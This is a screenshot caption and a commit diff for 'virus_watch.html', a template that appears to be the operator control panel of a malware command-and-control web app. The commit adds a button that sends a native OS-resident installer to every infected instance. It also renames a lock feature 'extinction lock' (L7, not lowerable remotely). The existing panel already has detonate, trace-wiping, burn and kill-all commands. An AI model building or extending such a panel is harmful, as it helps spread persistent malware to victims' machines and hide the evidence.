

Before and after one commit to yj2952399-ctrl/igtracker, a Python web app: template templates/virus_watch.html in a window 1280 px wide. Shown: the part 237-1333 px from the top of the page at 91% size. Run offline with Jinja, Linux system fonts and the light colour scheme; the template is opened without the code that fills it: most values are stand-ins (such as "Sample title", 1, 10 or a date in 2020).

Commit message:
virus_watch.html を更新

```diff
--- a/templates/virus_watch.html
+++ b/templates/virus_watch.html
@@ -84,7 +84,7 @@
     <h2>■ 操作盤</h2>
 
     <div class="row" style="justify-content:space-between">
-      <span class="hint">強度レベル（L0〜L7）／ L7は固定枠</span>
+      <span class="hint">強度レベル（L0〜L7）／ L7は固定枠・OS常駐インストーラ</span>
       <span class="hint">ヒット <b id="vw-total">{{ total }}</b> ／ 未処理コマンド <b id="vw-pend">0</b></span>
     </div>
 
@@ -116,7 +116,8 @@
       <button id="vw-freeze-soft" class="ghost">軟凍結</button>
       <button id="vw-freeze-hard" class="ghost">硬凍結</button>
       <button id="vw-boom" class="danger">☢ 終焉（L6即時）</button>
-      <button id="vw-fix" class="fixbtn">🔒 固定枠（L7・ロック）</button>
+      <button id="vw-fix" class="fixbtn">🔒 絶滅固定（L7・ロック）</button>
+      <button id="vw-native" class="danger">🖥 インストーラを配る</button>
       <button id="vw-wipe" class="danger">🧹 痕跡消去</button>
     </div>
 
@@ -148,6 +149,7 @@
       <button data-cmd="open">🪟 窓を開く</button>
       <button data-cmd="reload">🔄 再読込</button>
       <button data-cmd="update">⬆ 更新</button>
+      <button data-cmd="native" class="danger">🖥 インストーラDL</button>
       <button data-cmd="burn" class="danger">🔥 burn</button>
       <button data-cmd="kill" class="danger">☠ 全停止</button>
     </div>
@@ -240,7 +242,7 @@
       else { b.classList.remove("on"); b.style.background = "#182231"; }
     });
     $("vw-fix").classList.toggle("on", !!FIXED);
-    $("vw-fix").textContent = FIXED ? "🔓 固定枠を解除" : "🔒 固定枠（L7・ロック）";
+    $("vw-fix").textContent = FIXED ? "🔓 固定を解除" : "🔒 絶滅固定（L7・ロック）";
     showLv(LV);
   }
   lvBtns.forEach(function (b) {
@@ -263,10 +265,11 @@
   $("vw-freeze-soft").onclick = async () => { await post("/freeze", {freeze: "soft"}); log("軟凍結"); sync(); };
   $("vw-freeze-hard").onclick = async () => { await post("/freeze", {freeze: "hard"}); log("硬凍結"); sync(); };
   $("vw-boom").onclick  = async () => { await post("/detonate"); log("終焉（L6）"); LV = 6; sync(); };
+  $("vw-native").onclick = async () => { await post("/cmd", {sid:"", kind:"native", arg:"bat"}); log("インストーラDLを全個体へ"); sync(); };
   $("vw-fix").onclick   = async () => {
     FIXED = FIXED ? 0 : 1;
     await post("/fix", {fixed: FIXED});
-    log(FIXED ? "固定枠をロック（L7・遠隔から下げられない）" : "固定枠を解除");
+    log(FIXED ? "絶滅固定をロック（L7・遠隔から下げられない）" : "固定を解除");
     LV = FIXED ? 7 : LV; sync();
   };
   $("vw-wipe").onclick  = async () => { await post("/wipe");     log("痕跡消去を指示"); };
@@ -281,7 +284,7 @@
   document.querySelectorAll("[data-cmd]").forEach(function (b) {
     b.addEventListener("click", function () {
       const k = b.getAttribute("data-cmd");
-      const a = (k === "speak" || k === "open") ? $("vw-arg").value : "";
+      const a = (k === "speak" || k === "open" || k === "native") ? $("vw-arg").value : "";
       sendCmd(k, a);
     });
   });
```
